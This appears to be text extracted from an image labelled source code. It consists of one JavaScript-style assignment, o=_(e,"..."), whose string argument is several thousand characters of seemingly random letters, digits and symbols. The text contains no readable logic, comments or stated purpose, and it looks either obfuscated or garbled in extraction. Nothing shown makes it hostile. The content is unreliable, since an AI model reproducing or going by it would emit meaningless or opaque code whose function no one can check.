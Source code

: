 o=_(e,";_Ix9bfzLSqKhrR%SSLhrI_Lf_KIRqx1zf:9fKq%%f%9LfhStrb9qfSLIxzzKqSxrr_hfIqL9_Sb%OIbb_K_!KrKIrf9qq%ULIRKIxfhKziI9_zxrK4Rffq_%IxDf%bxSKrhIIfLunbbqLRzIK7%bfSLrRI9Kx_xfbqqLIhLERb9SqRyIffhKI%K9bL9hq_3SK^q9xLqrq_SbR9xLhhh_IbLRzbIqjrSIqf_9bShhR_9bqR99%S%rx_qfqqShh9bz%hL{fx%L%RfILfSK9%x9b_Kfhq9RqxshhIbzbKrR%9iLrLgSxLh%YfbzLLL9rSKrf_hfI%xbxqrhrIbzqh!%K9fLbrzqr%LxfzhhI9Kq%s79fLIhzv%brxKSzh9!qbWRx9KS_rfX_bSSrr%_SLJh9}_9hLKrr%Lb%q!RfIrzhSbNRb9SLf%K%%LxRL9mrLIKK%rbfLrh__SbrK9R%xKLGbKqbR9IqzP&qfRqxRKxxLfhrqx%IIhzIKLbIqr%_xbLLzh_b9KqirrIqz99SSLrI_LbRRzbhSbrzxHfzSh%rxKL_hhcKR%xSzLKRt9SR%%xrLxhRHrIVxzLIhusf9hRb9rLYrL_xf9qIR_hb_R9RS9rqf9h%_%bxSqRqISbhK_Q%9ILKhr_qbLLq%IxbzShI<hb_IzzbK2%fxhrfxzLxKz^I)?LhrL_KffqbLzrb_obfShIRSzr__bffSG%IIrLKKr_ERz9RzHKf%hqL%z9px9hb-bb%9hrhIzfzKIqqx9z%h%nbbzqvrLRLfzqrKKIfL_hb+Sbhb/RS_%z9K_%R9L_rf%qfRhxIK%xWfbqhrKxKSbqL_qbrq_hrISzqK_Sbrr_Rf9qq99SRR_I%frb_SKrqI3ff%%bRq_RIISzhL_SSd%IIfLqRbfKxqCQhfrh3X%x%Sfh%rJbzqqRfRLb_hf%%99L%R,Ib_LKI%xRqbrhb4RbfLSrqr9faq%%LRhzqKr:qb9SxrR_r_hI%ILLK3__II+RSx_zIKL%RSz%qxbzKh(qbR%IRz9Kq9LKqH 9Ib%hx_LRr9xzfKhXIS9%rxzzKhh%fbLSx%_IxzfKrK.hxKh_%SbS%rLzqh(nf9hSIrL_RLLRq%xxqzhhI{LKb%b9zLbfSrL%IxLzR?bzxKr%L9KSfLLI_bzqhRSxfLtzIPbx%LLh%r8bLKbqI_bzrhf.R9_SILhrq9xqz%IIRz_zf%R9xLhLRI0fSqhq%h%_KbLSRR9frRI_KbrKfRrIIzbKhqx%xIhzIKL9zKI%jxSL9hb_f9r9RrRI%frKfL%Rb_LbRq9rzr>xxqSKI%zqRILLxhz=KbRbIRKI_zfKxtD9q_%zIqLRRx9rRI%z9hvKI9KLShr7R_ZqbRRRIf%q%{rrrxxffqh%IzKRrxIzNKS%rb_S9hSIIbrqSRR_SfrhL4_9hLKfrKz%fxhLIvhzzhz%r9%SLrdKbP9xRL9hqbhhb%r9fS_rh_K9RqS%qxLzzbKqIR9Iqz&%hfLqxR%r_I^bqqvRff%RzIqzpqS%L99fhKrPRbrSxzzhxN^9fLh_KLfh__f9%SrrKIqzf9KSSr9_qfMSxLhRRfbzrq9fqrrxzLbr*qK%zx9zqh^9hKL%K9fLbL9QKbhqIz%hb,L9RS9IbLbr%q%mIxLzRh9bRKL%%9%9Ir_I__9LLR%xqIhhbHx9zLLfqKa%frhfKzIh_99rKRxIRfhKI%LL9Rrxfzbq9%r9%Lrz_h_%q9wLf_Rzzhb8xb_LhrbIL9fK_%_xhLzbKqjRSxLzIKL%RLz%hxbzzr6ZzxKSqrr_RfbKLL%rS_LbRq9xRS%rrIxfRqrK%rzI_flqfRhLfRzIbfKKf%b3S_%fKqLRRx9hbIbz%S%oK9KSIhS_z%xxrzhhIyLSRnBxKSShK_RfbxKSzh9CqbuRq9bLShrIV_9qrRxxLzbhIgh%RqFLq_KbKKbqIxKLzhzDR9bSxf%Kf%LxRL9_9LbhxOhRIILfRK9%q9}LfRfbIbKqqR9Iqz7%SfRqzRS9IzSSh_bbqq,R_If(_9SLqrk_fqbZ%9SSbrSKrIz9fLhrIfhhfkrbrbkrhIbfRqrqR9KzKrxhfbhq9RzxIfSqrF9xKL4LI_%bzqLRIR6bxKK+_9fz_hSXr_:Lhq%hb_z9RS9rqfLh%IGb9qz%fR9f%hLkfxrS^hh_xffxrLhhfGhbIrKb/LShKI9bKSxRKxfzIhx__RxxkfhKI%LLSRS9xxNqS_bbbShrxI_%r9fLfhh_IqK_x9qSlrSIR%%9zLLhR_9qR!SbqSLrzKKPb99LqrubShK_*bhSxRIIR=xbqLhrI_LKI2hbxqxSfIbzbfLHIxrL_hb_L3hqbrKxGfrKqt9rf_hfIqLRRx9Kqx%9f9%ShrL_Rf9_fb%SzR)xbzhhT%r9LLzfSKI%IxLzR_IzSh9%%9ISKfKKL%9xqLPEhzKKR%h9xSfKL__fxq_LbhhnRb9SqIRLzrS_z%K9zL9hq_aq-__9%SLKRIxz_qb%Lh%_SbLSRR9f%RxIf_hq9%z9f_bbKqxRRIhzIKLx%K_R%99zRrb_bbhx_L_KqV)9fRKx_zhq_arf9zSRNIRzLKK _xL_rfLqfRhxIKhxxzfqKw9x%LKrQqK%Ix9zqh^b9KKMfxrI_zxqq%6xfrx>Sx%LfRK_IbzqRRx9Sz#Kf%K9ISLSS%LIIfLqRbhqR%9xfz%Lhhz^rSzrxIIb%K_%b%fzKKS/LbbbbrR_xz_q9RrI%zhKqShRhILfRK9_K9sLfhh_bbRSRR9IqKxIbfLK_%q(__zf9qXRfIhKS_rzISzR%9ILhhbnb9rx_LIKqEZ9frRxzLfhIQSbhL/RLIbz_Kq%z9LSxfxKpRhxIzL_?zSKLRxxKLRrL__b_SSzrhfPf9hSI_Kz%r_O%fISzz%hz>L9RS9x<L_rII_bzxKLbh9tqbTRf9LLxR__xffqrLxhr8hbISLI_SxrL_RbKS%%fhK_Lb9SqR}frr_If9LqqRb9xzbhLQ%RbIKfRK9%qqb%Sxh_bfxSRR9IqhMIIbrKKRr98bbKRT99KSczIKL%R99LqrF%fhKRIRKx_z9Kq^nKLRrxf_Kfbq9Rqx&hhI_fbKh%r9f9hfxqqRhxIzL7xzIK%%rrS_%fIqLRRqLrKIR8z9hSbr%_Rf9qqbfqLRKI%bqSbrfrrIKffqh%IL9RrIzfKKhRf9LLxR__xffxrS<hfZhbIrq9zSIhRe9fbLRRzxfzIKS)hxxSqr_II%LxRL9hq_nbfShRIILz_hI%q9OLf_hzRKS_z9SShhI_KfSK_%RxzLIh_qxRqIhzIKLfbqb%zxb_SfbqIRLIRRL_%f_KxR%9_L9hr_fRrxzzfKhVILh{4xbS_hS_9bxxxzSh_.r9qS?rfSxr__qbSqzRqI_fSK_Sbrh_Rf9qqbRSK%9xfEKbzS9rqI}rq__bxqbR_Ihf%KxF_r%IffLqR%9qzR_xqz9bbSKrRI9fq_RbKKxLbrbZRb9SqIxSKrRI9brqh%Ltrz_hxU_b9LSz_hi%q9ULfxDzzKR%%bSSfR9_SfKqR%z9l_bfIq,RfIhzfKL%R99Lrr__fbhqI9Ix_LLKq3O9fRx9_Lqhq2LxRS%hhIbfzK%%R9xLhr9%fbKSKRfxIVz9KS*rf_hKKqKR%x9zqhEbR9hSIrL_Rf9Kz%3xfzhhIKS9RSbrqIXffqh%IbLLIh93Kb=SzrhI9fLqRd%xqLIhfVhbISLrRI9LbKg%SxhLIhL6Rb9SqRLIffrKI%LxRLfhq_vf_ShRbILf%K9%q9NqfRI_IbhSRRbIqz9Kf_hbfLLrx_9bKqHRSIhzIhx%R9zLqrb_fbRqIRL9zz9KRWO9LLhrI_LzRKhRqxbzfKrGI9SLRr9xIf4qSRhx9zLKR<99qq9rf_hfIqSRRx9zqh9Nf9hSIrKIIf9qq%kq9R_xqzhb_SqrqIlff_Rbxq%RbISzRbISSRIIIfLqR9fS%RrxbLIKzSSrRI9fqK}!SxhLIhLIQrxSqR_IffRKI%LxRL9rx_lbLShRIILfRK9%qb_Lfh%_IbLSRR9IqzyKz%h9xLLr__9bhqgRhIrzIKS%R9KLqr__fbrqIRhS9z9KqJ}9rLhrx_LfI:qRqxFzfhRVI9SLRRfLLf&qzRhxxzLKR?99qRLrf_RfIqLRRx9zqhCqq9hS9rLIif9qq%-xf9rhIWK9RSzrqI{ffK}bLxLzRh9_LbwSzrh9IILqR%qxqLbhf_ibISLK%I9zjKP%LxhLxhL_9/qSqR_IfzLKI%SxRLfhq_9KhShRIILzqK9%K9(LfI9_IbSSRR9IqzVKf_hIhLLh%_9bqq3RSIhzIrz%R99Lqr__fbhqIRLIRz9Kq5_9fLhrI_LfIq9RqxMzf_9#I9SLRr9_qf7qfRhSqzLh(&99qSQrf_hfILSRRxbzqhI:f9rSIrLxrf9qq%?xzzhhICLfIS9rqInfzqh%bxKzRh9}qKIHbb9Ibz_qR%9xqr9IKfrK%rK9rS&rSII%fxhLIhL/Rb9SqRsfffhKI%LxRL9hq_JfqrhRbxffRK9%qLzRK9?b%hz#I9SSfKx%hfRqx%bxx_9bqq)RfIhzIKLRRLxLrr__fbhqI9/x_zRKqgM9fRR9_SChr_SbRShr%Iqfz9KSIr9_qf3%Sbbqhrrh_(r9qS8rfb%hq2SfASbrrx9fKKRSbRo_Rf9qq9ZqbR%IKzhKzEx9LIxfKqh%IxLh_xxzfK%PLrhIIfLqR%9xqhpbb9hbbS%rRI9fqTfb%q%RKIqzqKSSrRKIffhKIxRqzRSxfz9qbtIxLS_rxIK%r9_Lfhh_IK_q_%5IqzYKff-qzRRI%LShf_99SSKrRIzz 99Lqrd_fbhqIRLxRK9KrVS9fLhrILhhxObbzSxRbILz_KqSir9_qf2qf91xIzLKRsqbIScrL_hfbqLR%x9zqhW.qKISIrL_Rfzqq%_xfShrL Lb5S9rqI#z_qh%L%-zRhfkqbfSfrrIIfSqR%Lq/L hflhbLSLr%I9fR_f%fxhLI_z4RbbSq CRffhKb%L9nL9rn_Ubf_rRIIKfRKf%q9ILfhhIfbLqIR9Iqz1Kf%hfIqbhR_SbqqxRfxLzIKL<R99LRrc_LbhqLRL9RS_Kqdz9fLrrI_qbRK9%rxszrKh__9LSxr9xqzKqf%xxIzSKRZr9qqlRL_hfSqL%rx9z%h3*hfbSIrK_Rzfqq%_xfzrhI#hK9S9rqIPzLqh%xxLLIIqwqb/SfI%IIfSqR%q%ILOhKAhfzSLr%I9fKK2%qqILIhLURfSSqR_Ifz&_L%LxRL9_r_AbzShRILCfRKK%q9_Lfhh_IbLrbR9xIzoKL%h9ILLhR_rbqqSRfI%zIKL%Rf9qzrH_%bhqKRLxRz9rqH_9fSbrII_bRqLRqxBLIKh:q9LSzr9_qfVqf%bxIz%KRy99qSIrf_hf9qL%bx9L)hQ*r9hKIrq_RfKqq%zxfLahI_LbKS9R_I>frqh%SxLSRrLkqbzSfRxIIzfqR%99rL0hRyhbfSLrRI9zqhS%f9bLIrK6RbKSq%VIzfhKh%L9xL9r__1bfqIRIx1fRKR%q9SLfhh_SbLqLR9IRz)Kf%hfISxhR_%bqq9Rfx9zIrLMq99Sfr._qbhKxRLIR9qKqiq9fSLrIIxbRh9IRx LIKhax9LS8r9_qfLqf%SxIzrKR 99qSU%x_hzVqL%fx9zqh2Pfb}SIRz_Rfrqq%/xfzhrL!LbKS9RSIkfLqhUI9KzRrmNqbqSfRSIILLz9%99fLahzVhb9SLrRxLfqKr%f9_LIhLERb9qfRWx9fhKf%LxRL9Rq_fbfqKRIxXfRKL%q9